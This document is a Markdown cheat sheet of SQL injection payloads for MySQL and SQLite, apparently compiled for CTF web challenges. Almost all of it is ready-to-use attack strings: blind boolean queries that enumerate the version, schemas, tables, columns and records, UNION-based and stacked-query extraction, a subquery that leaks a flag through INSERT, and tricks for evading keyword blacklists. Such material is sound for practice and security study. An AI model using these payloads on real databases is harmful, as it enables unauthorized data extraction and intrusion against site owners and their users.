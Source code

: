 ## MySQL

### Comment
  - `#`
  - `-- `
  - `/*comment*/`

### Blind SQLi
  - Finding correct payload
      - `admin' and (1=0)#` *return false*
      - `admin' and (1=1)#` *return true*
        
  - Get version [code.py](https://github.com/ByamB4/Common-CTF-Challenges/blob/main/web/sqli/src/mysql_blind_get_version.py)
      - `admin' and (SELECT LENGTH(VERSION())={guess})#`
      - `admin' and (SELECT ASCII(SUBSTRING(VERSION(),1,1))={guess})#`

  - Get schemas [code.py](https://github.com/ByamB4/Common-CTF-Challenges/blob/main/web/sqli/src/mysql_get_schemas.py)
      - `admin' and (SELECT COUNT(*)={guess} total_schemas FROM information_schema.SCHEMATA)#`
      - `admin' and (SELECT LENGTH((SELECT SCHEMA_NAME FROM information_schema.SCHEMATA ORDER BY SCHEMA_NAME LIMIT 1 OFFSET {index}))={name_length})#`
      - `admin' and (SELECT ASCII(SUBSTRING((SELECT SCHEMA_NAME FROM information_schema.SCHEMATA ORDER BY SCHEMA_NAME LIMIT 1 OFFSET {schema_index}),{name_index},1))={ord(guess)})#`
  
  - Get tables from schema [code.py](https://github.com/ByamB4/Common-CTF-Challenges/blob/main/web/sqli/src/mysql_blind_get_tables.py)
      - `admin' and (SELECT COUNT(*)={guess} total_schemas FROM information_schema.TABLES WHERE TABLE_SCHEMA='{self.SCHEMA_NAME}')#`
      - `admin' and (SELECT LENGTH((SELECT TABLE_NAME FROM information_schema.TABLES WHERE TABLE_SCHEMA='{self.SCHEMA_NAME}' ORDER BY TABLE_NAME LIMIT 1 OFFSET {index}))={name_length})#`
      - `admin' and (SELECT ASCII(SUBSTRING((SELECT TABLE_NAME FROM information_schema.TABLES WHERE TABLE_SCHEMA='{self.SCHEMA_NAME}' ORDER BY TABLE_NAME LIMIT 1 OFFSET {table_index}),{name_index},1))={ord(guess)})#`
   
  - Get columns from table [code.py](https://github.com/ByamB4/Common-CTF-Challenges/blob/main/web/sqli/src/mysql_blind_get_columns.py)
      - `admin' and (SELECT COUNT(*)={guess} total_columns FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='{self.SCHEMA_NAME}' AND TABLE_NAME='{self.TABLE_NAME}')#`
      - `admin' and (SELECT LENGTH((SELECT COLUMN_NAME FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='{self.SCHEMA_NAME}' AND TABLE_NAME='{self.TABLE_NAME}' ORDER BY COLUMN_NAME LIMIT 1 OFFSET {index}))={name_length})#`
      - `admin' and (SELECT ASCII(SUBSTRING((SELECT COLUMN_NAME FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='{self.SCHEMA_NAME}' AND TABLE_NAME='{self.TABLE_NAME}' ORDER BY COLUMN_NAME LIMIT 1 OFFSET {column_index}),{name_index},1))={ord(guess)})#`
      
   - Get total record from table [code.py](https://github.com/ByamB4/Common-CTF-Challenges/blob/main/web/sqli/src/mysql_blind_get_total_record.py)
      - `admin' and (SELECT COUNT(*)={guess} FROM {self.SCHEMA_NAME}.{self.TABLE_NAME})#`

   - Get record from table [code.py](https://github.com/ByamB4/Common-CTF-Challenges/blob/main/web/sqli/src/mysql_blind_get_record.py)
      - `admin' and (SELECT COUNT(*)={guess} FROM {self.SCHEMA_NAME}.{self.TABLE_NAME})#`
      - `admin' and (SELECT LENGTH((SELECT {self.COLUMN_NAME} FROM {self.SCHEMA_NAME}.{self.TABLE_NAME} ORDER BY {self.ORDER_COLUMN} LIMIT 1 OFFSET {index}))={record_length})#`
      - `admin' and (SELECT ASCII(SUBSTRING((SELECT {self.COLUMN_NAME} FROM {self.SCHEMA_NAME}.{self.TABLE_NAME} ORDER BY {self.ORDER_COLUMN} LIMIT 1 OFFSET {record_index}),{name_index},1))={ord(guess)})#`

### Union SQLi
- Extract number column

  - `'union select 1,2,3#`
  - `' order by 3#` 

- Confirming injection visible

  - `'union select @@version,2,3#`

- Extract database names

  - `';show databases;#`
  - `'union select group_concat(0x7c,schema_name,0x7c),2,3 from information_schema.schemata#`

- Extract table neams from database

  - `';show tables;#`
  - `'union select group_concat(0x7c,table_name,0x7c),2,3 from information_schema.tables where table_schema='<DATABASE_NAME>'#`

- Extract column names from table name
  
  ```
  ';show columns from <TABLE_NAME>;#
  ';show columns from `1919810931114514`;# if table name is number it must be queried with backtricks
  'union select group_concat(0x7c,column_name,0x7c),2,3 from information_schema.columns where table_name='<TABLE_NAME>'#
  ```

- Extract data

  - `'union select <COLUMN_NAME>,'b','c' from <DATABASE_NAME>.<TABLE_NAME> where id='1'#`

## SQLite
- Extract previous query
  - `union select sql from sqlite_master`

- Extract table names 
  - `union select name from sqlite_master where type='table'--`
  
- Extract column names from table name
  - `union select sql from sqlite_master where type='table' and name='<table_name>'--`
  
- Extract data using column and table name
  - `union select <column_name> from <table_name> where id=1--`

### Insert
  - `INSERT INTO notes(username, notes) VALUES('admin', (SELECT flag FROM secret LIMIT 0,1)); -- -`


## Tricks

  - Bypass blacklist words
    - `ad'||'min`

  - Read data from column name
    ```
    1'; handler <COLUMN_NAME> open as `a`; handler `a` read next;#
    ```

